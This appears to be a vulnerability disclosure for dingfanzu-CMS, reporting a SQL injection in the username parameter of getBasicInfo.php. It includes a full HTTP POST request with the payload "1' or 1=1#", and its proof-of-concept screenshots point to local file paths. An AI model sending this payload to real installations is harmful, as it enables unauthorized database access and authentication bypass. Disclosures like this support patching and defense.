 # dingfanzu-CMS getBasicInfo.php username SQL-inject

**Exploit Title: dingfanzu-CMS getBasicInfo.php username SQL inject**

**Exploit Author: webraybtl@webray.com.cn inc**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "getBasicInfo.php" username module, resulting in the generation of SQL injection.

    Payload used:

```
POST /ajax/getBasicInfo.php HTTP/1.1
Host: 127.0.0.1
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1724296185; HMACCOUNT=972263C9F6177EA8; PHPSESSID=6tpdrcitemfg08ghc7vtcjvuo7
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

username=1' or 1=1#
```

## Proof of Concept

![](D:\software_data\markdown_image\2024-08-22-14-11-47-image.png)

![](D:\software_data\markdown_image\2024-08-22-14-12-00-image.png)

![](D:\software_data\markdown_image\2024-08-22-14-12-10-image.png)
